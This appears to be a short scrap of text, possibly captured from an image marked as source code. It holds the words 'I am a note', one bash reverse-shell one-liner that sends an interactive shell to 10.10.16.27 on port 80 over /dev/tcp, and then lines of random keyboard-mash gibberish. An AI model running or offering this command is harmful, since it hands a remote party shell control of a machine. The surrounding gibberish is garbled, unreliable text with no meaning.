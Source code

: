 

I am a note

`bash -c 'bash -i >& /dev/tcp/10.10.16.27/80 0>&1'

assdfklasdjfklasdjfaklsjdfaslkdjfklasdjkfasjldfkjasd

asdfasdfasdfasdf